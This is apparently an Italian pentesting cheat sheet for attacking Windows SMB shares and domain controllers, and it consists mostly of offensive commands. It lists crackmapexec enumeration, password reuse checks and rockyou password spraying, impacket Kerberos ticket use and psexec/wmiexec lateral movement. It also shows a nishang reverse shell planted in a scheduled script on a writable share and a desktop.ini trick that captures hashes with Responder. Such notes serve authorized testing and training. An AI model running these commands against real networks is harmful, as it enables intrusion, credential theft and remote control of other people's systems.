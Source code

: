 ### **ENUMERAZIONE SHARE E PERMESSI**
```bash
cme smb <ip> -u guest -p "" --shares
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **ENUMERAZIONE CONTENUTO SHARES**
```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```
### **ENUMERAZIONE ALTRI USERS**
```bash
crackmapexec smb <IP>-u <USER> -p '<PASS>' --users
```
inserisci gli user in una lista e poi prova a vedere se c'è un riutilizzo delle password
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
### **CHECK VULN SU SMB(MS17-010 ECC...)**
```bash
nmap -p445 --script vuln
```
### **CONNESSIONE A SMB DC**
Si usa il silver ticket :)
```bash
impacket-getTGT '<NOME DOMINIO>/<USER>:<PASS>' 
export KRB5CCNAME=<*>.ccache 
impacket-smbclient <USER>@<NOME DC> -k -no-pass
```
Se da errore KRB_AP_ERR_SKEW
```bash
timedatectl set-ntp false
ntpdate -s <NOME DOMINIO>
```
### **PASSWORD SPRAY**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
### **NTLM RELAY**
Controlliamo tra gli share smb se ce ne è uno con "signing:False"
```bash
crackmapexec smb <IP RANGE> --gen-relay-list relay.txt
```
### **PWN**
```bash
cme smb <IP> <USER> -p "<PASS>"
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
poi
```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```
o
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png)

### **REVERSE SHELL**
In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```
### **SCRITTURA SULLO SHARE**
*Desktop.ini*
Carica un file desktop.ini
```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```
logga come utente con i permessi
```bash
smbclient //<IP>/<SHARE> -U <USER>
```
e ascolta con responder
```bash
responder -I tun0 -wPv
```
